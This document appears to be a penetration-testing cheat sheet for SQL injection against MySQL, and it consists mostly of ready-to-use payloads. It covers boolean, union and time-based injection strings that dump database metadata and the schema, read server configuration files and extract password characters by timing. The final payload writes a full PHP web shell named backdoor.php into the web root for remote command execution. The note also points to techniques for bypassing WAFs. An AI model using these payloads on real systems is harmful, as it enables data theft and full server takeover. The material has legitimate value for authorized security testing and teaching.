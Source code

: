 ### SQL Injection

**The following examples were tested on MySQL database.**

Try to produce database errors by injecting a single-quote, back-slash, double-hyphen, forward-slash, or period.

Boolean-based SQLi:

```fundamental

' OR 1=1--

' OR 1=2--

```

**Note that MySQL requires a space between the comment symbol and the next character.**

Union-based SQLi:

```fundamental

' UNION SELECT 1, 2, 3, 4--

' UNION SELECT 1, concat_ws(' | ', database(), current_user(), version()), 3, 4--

' UNION SELECT 1, concat_ws(' | ', table_schema, table_name, column_name, data_type, character_maximum_length), 3, 4 FROM information_schema.columns--

' UNION SELECT 1, load_file('..\\..\\apache\\conf\\httpd.conf'), 3, 4--

```

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the application query and to figure out which of them are displaying to the user.

Time-based SQLi:

```fundamental

' AND (SELECT 1 FROM (SELECT sleep(2)) test)--

' AND (SELECT 1 FROM (SELECT CASE user() WHEN 'root@127.0.0.1' THEN sleep(2) ELSE sleep(0) END) test)--

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(), 1, 1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)--

' AND (SELECT CASE substring(password, 1, 1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM schema.users WHERE id = 1)--

' AND IF(version() LIKE '5%', sleep(2), sleep(0))--

```

Use the time-based SQLi when you are not able to see the results.

Inject a [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request:

```fundamental

' UNION SELECT '', '', '', '<?php $p="command";$o=null;if(isset($_SERVER["REQUEST_METHOD"])&&strtolower($_SERVER["REQUEST_METHOD"])==="get"&&isset($_GET[$p])&&($_GET[$p]=trim($_GET[$p]))&&strlen($_GET[$p])>0){$o=@shell_exec("($_GET[$p]) 2>&1");if($o===false){$o="ERROR: The function might be disabled.";}else{$o=str_replace("<","&lt;",$o);$o=str_replace(">","&gt;",$o);}/*echo "<pre>{$o}</pre>";unset($o);unset($_GET[$p]);/*@gc_collect_cycles();*/} ?><!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><title>Simple PHP Web Shell</title><meta name="author" content="Ivan Šincek"><meta name="viewport" content="width=device-width, initial-scale=1.0"></head><body><pre><?php echo $o;unset($o);unset($_GET[$p]);/*@gc_collect_cycles();*/ ?></pre></body></html>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'--

```

To successfully inject a web shell, the current database user must have a write permission.

**Always make sure to properly close the surrounding code.**

Read this [article](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF) to learn how to bypass WAF.